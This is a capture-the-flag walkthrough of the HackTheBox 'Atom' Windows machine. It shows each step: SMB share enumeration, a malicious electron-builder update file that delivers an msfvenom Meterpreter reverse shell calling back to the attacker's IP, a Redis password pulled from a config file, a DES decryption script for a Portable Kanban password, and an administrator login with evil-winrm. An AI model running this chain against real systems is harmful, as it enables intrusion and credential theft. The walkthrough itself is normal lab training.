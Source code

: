 # Atom 
IP: 10.10.10.237
System: windows

referense to atom editor ? 
Lets start by focus on things that have something to do with programming / software. 

add the ip to hosts 
````bash
echo "10.10.10.237 atom.htb" >> /etc/hosts
````

## Nmap scan
|port|service|
|---|---|
|80|http|
|135|msrpc|
|443|https|
|445|SMB|
|5985|http|
|6379|redis|
|7680|pando-pub?|

On the http/https is the same page, which allows you to download a program for windows. 

lets try SMB port 

````bash
smbclient atom.htb
````

This will display interresting shares, lets start with software_updates there might be something there

````bash
smbclient atom.htb\Software_updates
````

````bash
smbclient -N "\\\\atom.htb\Software_Updates"
````

get download the pdf, no need to look at the other folder as they are empty.

Look to be a user acception test document. 


````bash
get UAT_Testing_procesudres.pdf
````

What we learn from the document is that the application is built on "electron-builder"

https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html

From the blog posts we learn that the signature verfication process in electron-builder is string comparison between the install binary publisherName and cerf common name. 

let try out exploit first with msfvenom.  

````bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.200 LPORT=8765 -f exe -o "trustme.exe"
````

````bash
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set Lhost 10.10.14.200
set rport 8765
````

Create you yml file 

````yml
version: 1.2.3
path: http://10.10.14.200/trustme.exe
sha512: <hash>

````

````python
python3 -m http.server
````

login back into the smb and put in the latest.yml file inside one of the clients.

````smb
cd client1
put latest.yml
````

lets wait and see if anything happens. 

and we got shell. 

````cmd
more c:\users\jason\desktop\user.txt
````

## admin
I always wanted to try somthing like WINPEAs and see if it works. 

upload the file using meterpreter

````ps
winPEASx64.exe servicesinfo
````

from the winPEAS we learn about a service called redis

what is redis??

going to the redis folder we see a conf file

````cmd
cd c:\program files\Redis
type redis.windows.service.conf
#output
requirepass kidvscat_yes_kidvscat

````

install redis-cli is you do not have it. 

````bash
apt intall redis-tools
redis-cli -h atom.htb -a <password>
keys * 
get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
````

{\"Id\":\"e8e29158d70d44b1a1ba4949d52790a0\",\"Name\":\"Administrator\",\"Initials\":\"\",\"Email\":\"\",\"EncryptedPassword\":\"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi\",\"Role\":\"Admin\",\"Inactive\":false,\"TimeStamp\":637530169606440253}"

And we got the hash -> Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi
Now the question is how do we get the password?

while using the winpeasx64 I saw the jason having Portable kanban inside his downloable folder, lets see if they use the same password for that as his admin account. 
Portable-kanban stores password as encryption format des and the same key is used for every product. 

google *Portable kanban encrypted password* and you get a python script for how to decrypt the hash. but it uses the pk3 file as argument but as we allready have the hash lets just that instead, and just alway everything we do not need. 

 ````python3
 import base64
from des import * #python3 -m pip install des

try:
    hash = base64.b64decode("Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi")
    key = DesKey(b"7ly6UznJ")
    print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
except:
    print("Wrong Hash")
 ````

And we got the admin password.
Decrypted Password : kidvscat_admin_@123

lets use the windows remote management to get access as admin on the machine, it a SOAP based protocol that allows hardware and operation systems from diffrent vendors to interoperate. 

Has a nice tool to get access to it.
https://github.com/Hackplayers/evil-winrm


````bash
sudo gem install evil-winrm
evil-winrm -i 10.10.10.237 -u 'administrator' -p 'kidvscat_admin_@123'
````

And we got root access.


hash -> 7df7256dc47d2125d825058b2f89ff38
writeups:
https://0xdedinfosec.github.io/posts/htb-atom/
https://hackingwebservice.wordpress.com/2021/04/22/htb-hackthebox-atom-writeup/